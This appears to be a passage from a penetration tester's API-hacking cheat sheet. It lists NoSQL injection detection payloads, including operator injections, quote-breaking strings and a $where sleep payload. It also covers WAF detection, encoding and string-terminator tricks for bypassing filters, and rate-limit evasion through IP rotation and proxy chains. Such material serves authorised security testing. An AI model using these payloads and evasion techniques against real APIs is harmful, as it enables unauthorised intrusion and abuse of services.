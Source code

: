 
1. NoSql Injection
```bash
# Detection
$gt
{"$gt":""}
{"$gt":-1}
$ne
{"$ne":""}
{"$ne":-1}
$nin
{"$nin":1}
{"$nin":[1]}

|| '1'=='1
//
||'a'\\'a
'||'1'=='1';//
'/{}:
'"\;{}
'"\/$[].>
{"$where": "sleep(1000)"}
```
1. Command Injection # wordlists/os-cmds.txt

# REAL-WORLD API HACKING
- Evading Security & WAF
1. Detect WAF
```bash
waf00f https://api.target.com
```
-  Evading Payload To Bypass WAF : Try All These To Determine The Perticular Bypass Method WHihc is accepted by backend 
1. Parameter Polluton
1. URL Encoding
1. Base 64 & HTml endoing
1. String Terminators
```bash
# add as prefix or suffix
%00
0x00
//
;
%
!
?
[]
%5B%5D
%09
%0a
%0b
%0c
%0e
```
- Rate Limit Bypass
1. Configure Ip rotate
1. Use ProxyChains
1. Check For These Headers In Req & Res
```bash
x-rate-limit:
x-rate-limit-remaining:
```
1. Path Bypass
```bash
POST /api/myprofile
```